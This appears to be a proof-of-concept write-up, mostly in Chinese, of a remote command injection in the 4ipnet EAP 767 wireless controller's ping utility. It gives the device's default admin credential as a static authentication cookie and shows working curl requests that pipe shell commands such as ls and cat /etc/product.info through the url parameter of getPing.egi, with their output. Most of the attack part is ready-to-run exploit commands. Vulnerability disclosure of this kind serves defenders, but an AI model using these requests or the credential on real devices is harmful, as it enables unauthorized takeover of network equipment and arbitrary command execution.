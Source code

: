 # PoC for 4ipnet EAP 767

```zsh!
❯ curl -I http://{host}/
HTTP/1.1 302 Moved Temporarily
Date: Mon, 15 Jan 2024 01:10:14 GMT
Server: Mbedthis-Appweb/2.4.2
Cache-Control: no-cache
ETag: "29e-122-2b9cb3e0"
Content-length: 88
Connection: keep-alive
Keep-Alive: timeout=60, max=100
Location: http://{host}/login.asp
```
![upload_1ab1ac81f80c42b992f6c4fc96be40e8](https://hackmd.io/_uploads/SkdCNTVYp.png)



從該網頁服務登入頁面，發現為 4ipnet 無線網路控制器

![upload_247c7496749603bc7b9772d11afd7ba4](https://hackmd.io/_uploads/r1TkSTEtT.png)



**查詢網路教學，取得該 IOT 預設密碼**

**Web console 功能**
系統概述
![upload_fa6cb02d32f831033c013c4142586a4f](https://hackmd.io/_uploads/BJmbrpVF6.png)

管理介面有 `Home > Utilities > Network Utilities` 功能，可透過網頁執行 ping, tracert, arping 等網路測試行為
![upload_9925e6bd58df1d54d022f404504adbef](https://hackmd.io/_uploads/HJOzH6VFa.png)

## 漏洞 PoC
**PoC I @ Browser**

前端有做 input text 檢測，驗證 input text 是否合規
![upload_0d41715f59b4037ce1b9dcea6c9d31ce](https://hackmd.io/_uploads/BkOXBpEFT.png)

改由後端下手，從 network 確認 http request 特徵
![upload_b87e4fa1fea137d1feba67001f4ca104](https://hackmd.io/_uploads/SkeSHHp4FT.png)

![upload_354d5ac2dd8284e800fa818cf166f489](https://hackmd.io/_uploads/S1fLHaVKa.png)



http request 特徵
```asp!
# request 1
http://{host}/getPing.egi?url=127.0.0.1

# request 2
http://{host}/getPing.egi?pid=940
```
:::info
可發現其 ping 功能為先將 `url` 作為 query string 參數送出，並取得 `pid`, 再批次透過 `pid` 參數取得 ping output，最終將結果呈現至網頁
:::

發現該管理介面僅依賴 cookie name/value 作為 user 身分證驗依據。


| Name | Value |
| -------- | -------- |
| username     | admin    |
| password     |  17lgP6vqCV1Ko   |

:::danger
使用同 1 組帳密(admin)不論重新登入幾次，cookie 內容均不變
:::

![upload_3ecdb0b545bf10be16816293036534e8](https://hackmd.io/_uploads/SJEarpVFa.png)



**PoC II @ cmd**

使用 curl 工具模擬 http request 存取管理介面 home page，被導入登入頁面

![upload_f3925ef9b1edaae1b762ad800322d80d](https://hackmd.io/_uploads/HkUDIaVKp.png)


使用 curl 工具模擬 http request 並帶入上述取得 cookie，證實可使用需驗證身分授權之管理介面 home page

![upload_a76b368249757b325d6f3bcc4ab24d88](https://hackmd.io/_uploads/rJEjUT4YT.png)

嘗試存取 `getPing.egi` 頁面，並將 query string 參數`url` 使用escape 特殊字元(`;`,`|`)嘗試跳脫後並注入指定 command

**Attemp I with `;`**
被後端程式檢測為不合法字元
```zsh!
❯ curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=127.0.0.1;"
HTTP/1.1 200 OK
Date: Mon, 15 Jan 2024 01:49:25 GMT
Server: Mbedthis-Appweb/2.4.2
Cache-Control: no-cache
Content-type: text/html
Content-length: 29
Connection: keep-alive
Keep-Alive: timeout=60, max=100

Illegal Characters of URL.
OK%                              
```
![upload_6b5b52a9a94d27f7ace8850892ba7f77](https://hackmd.io/_uploads/SkoxD6Vta.png)


**Attemp II with `|`**
成功跳脫!!! 並取得 `pid`!!!

```zsh!
❯ curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=127.0.0.1|"
HTTP/1.1 200 OK
Date: Mon, 15 Jan 2024 01:52:49 GMT
Server: Mbedthis-Appweb/2.4.2
Cache-Control: no-cache
Content-type: text/html
Content-length: 4
Connection: keep-alive
Keep-Alive: timeout=60, max=100

3704%      
```
![upload_77cdaa3fe2e0c85b8506ec8aa926a65b](https://hackmd.io/_uploads/B1HBwaNKp.png)


注入`ls` 列出當前目錄
```zsh!
 curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=|ls"
 ```
 ![upload_686276a082e16b2f204e75e987d55b0f](https://hackmd.io/_uploads/B1htDTNYa.png)

注入`ls -l` 列出當前目錄結構，檔案權限,檔案類型，修改日期等資訊
```zsh!
 curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=|ls%20-l"
 ```
 
 ![upload_caee4f89b8ef4271c2f50521c479fe61](https://hackmd.io/_uploads/rysCvpNt6.png)

:::success
證實該產品存在遠端程式碼執行(RCE)漏洞， 可透過傳入`url` parameter: input_text + pipe + command 執行任意指令
:::


## 確認設備廠牌型號
```zsh!
curl -b "username=admin; password=17lgP6vqCV1Ko" "{host}/getPing.egi?url=|cat%20/etc/product.info"
```
![upload_c8581cfbd913fe193766cbad839cefc7](https://hackmd.io/_uploads/H1DZ_aEtT.png)

## Reference
https://hkitblog.com/12770/
https://www.lienshen.com.tw/sidebar1_01-2-11.html
https://www.netadmin.com.tw/netadmin/zh-tw/snapshot/0E91A5D929C04C40AB6A6B88592725E1